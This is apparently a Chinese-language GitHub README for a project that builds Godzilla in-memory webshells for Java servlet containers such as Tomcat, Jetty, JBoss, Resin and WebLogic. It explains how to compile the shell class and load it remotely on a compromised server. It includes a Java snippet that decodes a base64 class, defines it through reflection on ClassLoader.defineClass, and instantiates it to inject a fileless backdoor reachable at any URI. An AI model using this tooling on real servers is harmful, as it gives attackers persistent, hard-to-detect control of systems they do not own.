 # GodzillaMemoryShellProject

## 哥斯拉内存Shell项目

当你拥有一个可以加载任意Class的能力,你就可以编译此项目,编译对应容器的Class
当Class被加载之后，你将获得一个哥斯拉的内存shell,你连接时可以填写任意URI路径

姊妹项目(.NET/IIS内存Shell)：https://github.com/BeichenDream/GodzillaMemoryShellProject.NET/

```
  1. 选择JDK版本
  2. 编译此项目
  3. 找到对应容器编译出来的Class
  4. 在远程加载该Class
  5. 获得内存Shell
  
```

目前支持以下容器 几乎支持容器的所有版本（欢迎pull更多容器）,你无需关注上下文，这一切哥斯拉内存Shell将会自动搜寻并完成注入
在这个项目你会看到很多的动态代理，这是哥斯拉内存Shell为了兼容javax和jakarta api规范

```
  1. Tomcat 5 - 10
  2. Jetty 7 - 11.0.11
  3. JBoss 8 - 27.0.0
  4. Resin 3 - 4.0.66
  5. Weblogic 10.3.6 - weblogic 14
```

## 如何调用哥斯拉内存shell

```
            //哥斯拉内存shell的class Base64
            String godzillaMemShellClassBase64 = "...........";
            //base64 解码
            byte[] classBytes =  Base64.getDecoder().decode(godzillaMemShellClassBase64);
            //获得上下文的ClassLoader
            ClassLoader loader = Thread.currentThread().getContextClassLoader();
            //反射获得defineClass方法 用来定义Class
            Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            //使得defineClass方法可访问
            defineClassMethod.setAccessible(true);
            //调用defineClass方法 从class字节码创建Class
            Class clazz = (Class) defineClassMethod.invoke(loader,classBytes,0,classBytes.length);
            //创建哥斯拉内存shell实例 哥斯拉内存Shell在此处自动注入
            clazz.newInstance();
            
```

## 注入内存shell/查找上下文很慢？

可以根据目标环境减小maxDetch的值
![image](https://user-images.githubusercontent.com/43266206/179052668-2c98a030-d572-4b7c-8a81-49bc1c17ee01.png)

## 自动搜寻上下文

![image](https://user-images.githubusercontent.com/43266206/179051462-62356e57-7656-42bf-80ee-9c1ddfd3324a.png)

## 引用
https://github.com/feihong-cs/memShell
